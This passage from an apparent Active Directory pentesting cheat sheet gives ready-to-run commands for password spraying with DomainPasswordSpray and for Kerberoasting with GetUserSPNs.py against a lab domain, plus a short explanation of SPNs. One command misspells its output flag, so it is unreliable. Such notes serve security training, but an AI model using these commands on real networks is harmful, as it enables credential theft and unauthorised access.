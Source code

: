 first import the module
```bash
Import-Module .\DomainPasswordSpray.ps1
```

PasswordSpray through all users detect by `DomainPasswordSpray`
```bash
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

```

# Kerberoasting Attack

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments. This attack targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts. **SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. **

Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`. **Any domain user can request a Kerberos ticket for any service account in the same domain.** This is also possible across forest trusts if authentication is permitted across the trust boundary.

> NOTE
> 
> All you need to perform a Kerberoasting attack is an account's cleartext password (or NTLM hash), a shell in the context of a domain user account, or SYSTEM level access on a domain-joined host.

## Linux  

### GetUserSPNs.py  

- Command to enumerate all SPN accounts

To enumerate all SPN account we need a valid credetial for a users in a domain  
```bash
sudo GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/sqldev

```

To retrieve TGS ticket add the `-request` flag, and save it in the output file with `outpufile` flag  

```bash
sudo GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/sqldev -request -outpufile sqldev_tgs

```

To retrieve TGS tick for a specific users use the `-request-user` flag. To crack the TGS with [hashcat look this example](/o/g0p0AXIcTGvekdHmMoP7/s/EO0prAlimX7L2WsQXW17/cheatsheet/ad-cheat-sheet#tgs-kerberos-ticker) 
```bash
sudo GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/sqldev -request-user SAPService -outputfile SAPService_tgs

```
